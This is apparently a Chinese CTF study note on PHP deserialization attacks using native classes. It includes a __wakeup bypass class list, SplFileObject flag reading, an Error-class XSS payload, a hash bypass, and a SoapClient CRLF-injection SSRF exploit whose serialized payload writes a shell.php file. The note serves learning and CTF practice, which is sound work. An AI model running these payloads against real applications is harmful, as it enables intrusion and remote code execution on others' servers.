

# 原生类

## C开头

绕\_\_wakeup和/^[Oa]:[/d]+/

```
ArrayObject::unserialize
ArrayIterator::unserialize
RecursiveArrayIterator::unserialize
SplDoublyLinkedList::unserialize
SplQueue::unserialize
SplStack::unserialize
SplObjectStorage::unserialize
```

## 文件操作

### 遍历文件目录类

```
DirectoryIterator 
FilesystemIterator 
GlobIterator
```

注意，这几个类不能反序列化。



### 读文件内容

**SplFileObject**

```
<?php
highlight_file(__FILE__);
<?php
$text= new SplFileObject('./flag.txt');
foreach ($text as $tmp)
{
    echo $tmp;
}
echo "</br>";
```



## XSS

原生类Error和Exception,二者用法相同

```
<?php
highlight_file(__FILE__);
echo unserialize($_GET['ctf']);
```

exp

```
<?php
$a = new Error("<script>alert('xss test')</script>");
echo urlencode(serialize($a));
```



## hash绕过

还是原生类Error和Exception

```
<?php
highlight_file(__FILE__);
$a = new Error("test",1);$b = new Error("test",2);
 
if($a !== $b)
{
    echo '$a != $b'."</br>";
}
 
if(md5($a) === md5($b))
{
    echo "md5相等";
    
}
 
?>
```

## SSRF

利用SoapClient原生类的 \_\_call方法进行SSRF

1. 需要有soap扩展，php.ini中取消注释
2. 需要调用一个不存在的方法触发其\_\_call()函数
3. 仅限于http/https协议

正常情况下的SoapClient类，调用一个不存在的函数，会去调用\_\_call方法

**CRLF攻击**

什么是CRLF，其实就是回车和换行造成的漏洞，十六进制为0x0d,0x0a ，在HTTP当中header和body之间就是两个CRLF分割的，所以如果我们能够控制HTTP消息头中的字符，注入一些恶意的换行，这样就能注入一些会话cookie和html代码，所以crlf injection 又叫做 HTTP Response Splitting。

SoapClient 在调用发送数据时，存在CRLF漏洞，因此我们可以通过控制其中一个http头来构造出我们想要的请求包。

Content-Length是HTTP消息长度，它指定多少个字符，就读取多少个字符，多余的字符会被丢弃，所以可以通过控制Content-Length的长度，将没用的消息忽略掉。

使用SoapClient反序列化+CRLF **可以生成任意POST请求** 。

exp:

```
<?php
$target = 'http://127.0.0.1/flag.php';
// 填入post的数据 
$post_string = 'a=file_put_contents("shell.php", "<?php phpinfo();?>");';
// 填入你想要的http头
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: aaaa=ssss'
);

$user_agent = 'aaa^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string;

$options = array(
    'location' => $target,
    'user_agent'=> $user_agent,
    'uri'=> "aaab"
);

$b = new SoapClient(null, $options);

$aaa = serialize($b);
$aaa = str_replace('^^', '%0d%0a', $aaa);
$aaa = str_replace('&', '%26', $aaa);
echo $aaa;

?>
```

O:10:"SoapClient":5:{s:3:"uri";s:4:"aaab";s:8:"location";s:25:"http://127.0.0.1/flag.php";s:15:"\_stream\_context";i:0;s:11:"\_user\_agent";s:178:"aaa%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aX-Forwarded-For: 127.0.0.1%0d%0aCookie: aaaa=ssss%0d%0aContent-Length: 55%0d%0a%0d%0aa=file\_put\_contents("shell.php", "<?php phpinfo();?>");";s:13:"\_soap\_version";i:1;}

参考

[php反序列化 | 晨曦的个人小站](https://chenxi9981.github.io/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

[PHP反序列化中wakeup()绕过总结](https://fushuling.com/index.php/2023/03/11/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%ADwakeup%E7%BB%95%E8%BF%87%E6%80%BB%E7%BB%93/)

[浅析PHP GC垃圾回收机制及常见利用方式](https://xz.aliyun.com/t/11843?time__1311=mqmx0DBD9DyD2QKD/Qb5uDAhaDcC7FeD&alichlgref=https://cn.bing.com/)

[PHP序列化冷知识](https://zhuanlan.zhihu.com/p/405838002)

[从qwb webshell 题深入快速析构](https://mp.weixin.qq.com/s?__biz=MzIzMTQ4NzE2Ng==&mid=2247487933&idx=1&sn=e57bc3583c1b80f1aa7bd08409cfb82d)

[愚人杯3rd [easy\_php]](https://www.yuque.com/boogipop/tdotcs/hobe2yqmb3kgy1l8?singleDoc#)

[PHP之序列化与反序列化（原生类应用篇上）](https://blog.csdn.net/qq_51295677/article/details/123859246)

[PHP原生类的反序列化利用](https://dar1in9s.github.io/2020/04/02/php/php%E5%8E%9F%E7%94%9F%E7%B1%BB%E7%9A%84%E5%88%A9%E7%94%A8/)

[PHP反序列化——字符逃逸漏洞（肯定能看懂的！）](https://blog.csdn.net/qq_43632414/article/details/120499159)
